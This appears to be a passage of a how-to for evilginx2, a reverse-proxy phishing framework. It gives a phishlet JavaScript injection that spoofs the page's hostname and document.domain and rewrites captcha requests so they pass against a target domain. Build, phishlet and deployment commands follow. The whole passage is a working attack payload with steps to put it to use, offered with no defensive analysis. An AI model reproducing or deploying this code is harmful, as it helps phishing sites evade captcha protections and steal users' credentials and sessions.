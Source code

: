 ### **JavaScript Injection for Dynamic Bypasses**
```yaml
js_inject:
  - {trigger_domains: ["yourtargetdomain.com"], trigger_paths: ["*"], trigger_params: ["*"], code: "
    (function() {
      var originalHostname = window.location.hostname;
      var realHostname = originalHostname.replace('phishing-domain.com', 'yourtargetdomain.com');
      
      // Override hostname-related properties
      Object.defineProperty(window.location, 'hostname', {
        value: realHostname,
        writable: false
      });
      
      Object.defineProperty(document, 'domain', {
        value: realHostname,
        writable: false
      });
      
      // Intercept and modify captcha-related requests
      var originalFetch = window.fetch;
      window.fetch = function(url, options) {
        if (typeof url === 'string' && url.includes('captcha')) {
          url = url.replace(originalHostname, realHostname);
        }
        return originalFetch.call(this, url, options);
      };
    })();
  "}
```

---

## 🏗️ **Implementation Steps**

### **Step 1: Build with Enhancements**
```bash
cd evilginx2
go build -mod=mod -o evilginx2
```

### **Step 2: Create Enhanced Phishlet**
1. Copy your existing phishlet
2. Add relevant captcha bypass configurations
3. Add security enhancements
4. Test in controlled environment

### **Step 3: Deploy and Monitor**
```bash
sudo ./evilginx2 -p ./phishlets
```
